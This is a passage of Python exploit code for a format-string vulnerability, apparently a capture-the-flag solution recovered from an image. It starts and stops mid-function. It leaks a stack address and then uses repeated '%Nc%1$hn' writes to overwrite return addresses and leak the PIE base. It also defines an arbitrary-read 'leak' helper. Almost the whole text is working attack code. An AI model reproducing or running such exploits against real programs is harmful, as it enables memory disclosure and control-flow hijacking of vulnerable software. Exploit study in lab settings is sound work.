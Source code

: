 ```python
    p.read_until('The value is ')
    ans = int(p.read_until('\n'), 16)
    return ans

def give_format_string(st, n):
    p.read_until('Input the format string -->')
    p.write(st+'\n')
    p.read_until(' -->')
    p.write("%d\n" % n)

base_ptr = get_stack_pointer()
pie_crit = get_pie_crit(base_ptr - 0x7fffffffe590 + 0x7fffffffe589)
want_to_return_1 = (0x0b98 + pie_crit * 0x100 - 0xc00 + 0x10000) & 0xffff
give_format_string( "%" + ("%d" % want_to_return_1) + "c%1$hn", base_ptr - 8 * 1)
for i in range(14):
    give_format_string("a",1)

want_to_return_main = (0x0b9c + pie_crit * 0x100 - 0xc00 + 0x10000) & 0xffff
want_to_return_3 = (0x0d8c + pie_crit * 0x100 - 0xc00 + 0x10000) & 0xffff
p.write("%d\n" % (base_ptr - 0x7fffffffe590 + 0x7fffffffe589))
p.write("%" + ("%d" % want_to_return_3) + "c%1$hn\n")
p.write("%d\n" % (base_ptr - 8 * 1))
p.write("%" + ("%d" % want_to_return_main) + "c%1$hn\n")
p.write("%d\n" % (base_ptr - 8 * 4 ))
for i in range(13):
    p.write("a\n")
    p.write("1\n")

p.write("%d\n" % (base_ptr - 0x7fffffffe590 + 0x7fffffffe589))
want_to_return_2 = (0x0EA0 + pie_crit * 0x100 - 0xc00 + 0x10000) & 0xffff
p.write("%" + ("%d" % want_to_return_2) + "c%1$hn\n")
p.write("%d\n" % (base_ptr - 8 * 4 ))
p.write("PIEGET\n")
p.write("0\n")
p.write("%s\n")
p.write("%d\n" % (base_ptr - 8))
for i in range(11):
    p.write("a\n")
    p.write("1\n")
p.write("%" + ("%d" % want_to_return_main) + "c%1$hn\n")
p.write("%d\n" % (base_ptr - 8 * 1))

p.read_until("PIEGET\n")
pie_base = struct.unpack("<Q",p.read_byte(6).ljust(8,'\x00'))[0] - 0xe0a

pie_main = pie_base + 0xb98
p.read_until("-->")
#print "%x" % pie_base

def leak(x):
    p.write("%d\n" % x)
    p.read_until('The value is ')
    ans = int(p.read_until('\n'), 16)

    want_to_return_1 = (0x0b98 + pie_crit * 0x100 - 0xc00 + 0x10000) & 0xffff
    give_format_string( "%" + ("%d" % want_to_return_1) + "c%1$hn", base_ptr - 8 * 1)
    for i in range(14):
        give_format_string("a",1)

    want_to_return_main = (0x0b9c + pie_crit * 0x100 - 0xc00 + 0x10000) & 0xffff
    want_to_return_3 = (0x0d8c + pie_crit * 0x100 - 0xc00 + 0x10000) & 0xffff
    p.write("%d\n" % (base_ptr - 0x7fffffffe590 + 0x7fffffffe589))
    p.write("%" + ("%d" % want_to_return_3) + "c%1$hn\n")
```